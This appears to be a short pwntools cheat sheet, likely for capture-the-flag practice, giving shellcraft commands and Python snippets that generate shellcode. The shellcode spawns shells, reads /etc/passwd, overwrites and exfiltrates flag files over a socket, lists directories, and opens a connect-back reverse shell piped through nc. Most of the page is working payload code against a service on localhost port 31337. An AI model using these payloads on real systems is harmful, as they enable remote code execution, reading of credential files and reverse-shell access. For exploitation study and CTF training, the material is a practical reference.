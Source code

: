 ## Shellcodes with pwntools

```
arch = [ 'linux', 'amd64', 'arm' ]

shell = 'sh', 'dupsh'
io    = 'cat', 'write_file', 'ls', 'sendfile'
nw    = 'connectback'
```


### sh 
* tested on i386, amd64, ARM

``shellcraft -c i386 sh -f r | strace -ifx demo32 -``

### dupsh
* tested on i386, amd64, ARM

``shellcraft -c i386 dupsh 1 -f r | strace -ifx demo32 -``

### cat
* tested on i386, amd64, ARM

``shellcraft -c i386 cat /etc/passwd  -f r | strace -ifx demo32 -``

### write_file = open_file + write_file 
* tested on i386, amd64, ARM

```python
s = 'this file has been overwritted by me'

sc = ''
sc += asm(shellcode.open_file('./flag', 0x2))
sc += asm(shellcode.write_file(3, s, len(s)))
```

### ls
* tested on i386, ARM
* have to write shellcode in amd64

``shellcraft -c i386 ls /etc -f r | demo32 -``

```python
sc += asm(shellcode.ls('/etc/', out_fd=4))

s = remote('localhost', 31337)
s.send(sc + '\n')
while 1:
    rv = s.recv(1540)
    if len(rv) == 0:
        break
    print parse_getdents(rv)
```

### sendfile = open_file + sendfile
* tested on i386, amd64, ARM

```python
#!python

from pwn import *
context('i386', 'linux')

HOST = 'localhost'
PORT = 31337

s = remote(HOST, PORT)

sc = ''
sc += asm(shellcode.open_file('./flag'))
sc += asm(shellcode.sendfile(in_fd=3, out_fd=4))

s.send(sc + '\n')
print s.recvall()
```

### connectback
* tested on i386, thumb
* amd64(unstable)
* arm - arm_to_thumb() + connectback() 

``shellcraft -c i386 connectback localhost 31338 3 -f r | nc localhost 31337``
